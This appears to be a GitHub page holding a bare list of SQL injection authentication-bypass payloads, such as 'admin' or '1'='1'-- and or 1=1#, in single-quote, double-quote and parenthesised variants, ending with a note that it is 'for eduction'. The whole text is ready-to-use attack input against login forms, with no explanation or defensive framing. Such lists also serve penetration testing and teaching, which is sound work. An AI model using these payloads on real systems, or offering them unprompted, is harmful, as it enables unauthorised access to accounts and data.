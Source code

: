 # d
or 1=1
# 

or 1=1--
#
or 1=1#
#
or 1=1/*
#
admin' --
#
admin' #
##
admin' /*
#
admin' or '1'='1
#
admin' or '1'='1'--
#
admin' or '1'='1'#
#
admin' or '1'='1'/*
#
admin' or 1=1 or ''='
#
admin' or 1=1
#
admin' or 1=1--
#
admin' or 1=1#
#
admin' or 1=1/*
#
admin') or ( '1'='1
#
admin') or ( '1'='1'--
#
admin') or ( '1'='1'#
#
admin') or ( '1'='1'/*
#
admin') or '1'='1
#
admin') or '1'='1'
#
admin') or '1'='1'#
#
admin') or '1'='1'/*
#

admin" #
#
admin" /*
#
admin" --
#
admin" or "1"="1
#
admin" or "1"="1"--
#
admin" or "1"="1"#
#
admin" or "1"="1"/*
#
admin" or 1=1 or ""="
#
admin" or 1=1
#
admin" or 1=1--
#
admin" or 1=1#
#
admin" or 1=1/*
#
admin") or ("1"="1
#
admin") or ("1"="1"--
#
admin") or ("1"="1"#
#
admin") or ("1"="1"/*
#
admin") or "1"="1
#
admin") or "1"="1"--
#
admin") or "1"="1"#
#
admin") or "1"="1"/*

## for eduction
**its usefull for me**
